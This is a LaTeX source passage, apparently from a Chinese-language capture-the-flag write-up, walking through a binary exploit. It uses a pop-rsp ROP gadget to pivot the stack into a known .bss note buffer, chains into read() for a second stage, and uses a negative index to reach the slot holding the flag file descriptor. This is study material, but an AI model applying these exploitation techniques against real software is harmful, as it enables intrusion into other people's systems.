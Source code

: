 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
我們不知道堆疊位址（沒有洩漏），所以要把 \texttt{rsp}
搬到\textbf{已知位址}。 唯一已知的可寫區就是 \texttt{NOTE} 的筆記區
\texttt{0x40a180}。

用 \texttt{pop\ \allowbreak{}rsp} gadget：

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{401523:  }\BuiltInTok{pop} \KeywordTok{rsp} \CommentTok{; pop r13 ; pop r14 ; pop r15 ; ret}
\end{Highlighting}
\end{Shaded}

流程：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
SUBMIT 的 ret  →  0x401523
   pop rsp  ← 從 overflow payload 讀到 0x40a168 (= NOTES-0x18)
               → rsp = 0x40a168
   pop r13 / pop r14 / pop r15  → rsp 前進 0x18 → 0x40a180
   ret      ← 讀 [0x40a180] = 0x401f07  ← 這正是我們用 NOTE 寫進去的值！
               → rsp = 0x40a188
執行 0x401f07: read(0, 0x40a188, 0xff)
\end{Verbatim}

\textbf{這就是為什麼要先
\texttt{NOTE\ \allowbreak{}0\ \allowbreak{}\textbackslash{}\allowbreak{}x07\textbackslash{}\allowbreak{}x1f\textbackslash{}\allowbreak{}x40}。}
\texttt{strncpy} 會把剩下的 byte 補 0，所以 3 個 byte 就等於
\texttt{0x0000000000401f07}。

\texttt{.\allowbreak{}bss} 的實際長相（全部都是固定的已知位址，這張圖建議配合 gdb
看）：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
0x405060  key（4 bytes，XOR 加解密用）
0x405064  槽計數器（4 bytes）
0x405080  fd 槽 #0 {state=2, fd=flag.txt}     ← index=-4 打到的目標（唯一有 flag fd 的槽）
0x40548c  fd 槽 #1 {state=2, fd=/dev/null}
0x405898  fd 槽 #2 {state=2, fd=/dev/null}
0x405ca4  fd 槽 #3 {state=2, fd=/dev/null}    ← 迴圈「先寫後比」多寫的那一格（見 §4.1）
0x4060b0  儲存槽表（16 槽 × 0x40c）
              ^
              └── 0x4060b0 + (-4)*0x40c = 0x405080

0x40a168  ← pop rsp 的落點（PIVOT_TOP）；這裡是 .bss 的 0，所以 pop r13/r14/r15 讀到 0
0x40a180  ← NOTE 0 寫進去的 8 bytes（= 0x401f07）；ret 從這裡取值
0x40a188  ← 第一次 read(0, rsp, 0xff) 的目標 = A1
\end{Verbatim}
\end{document}
